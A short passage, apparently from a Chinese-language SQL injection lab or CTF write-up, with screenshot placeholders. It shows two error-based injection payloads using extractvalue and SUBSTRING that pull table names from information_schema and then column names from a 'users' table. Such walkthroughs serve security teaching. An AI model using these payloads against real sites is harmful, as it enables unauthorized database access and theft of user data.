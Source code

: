 ![](./images/image-140.png)

报错信息长度有限，这里使用`substirng`来截取

```
admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(table_name),40,30) FROM information_schema.tables WHERE table_schema=database())))#
```

![](./images/image-141.png)

发现一个users表

```
admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(column_name),1,30) FROM information_schema.columns WHERE table_name='users')))#
```

![](./images/image-142.png)
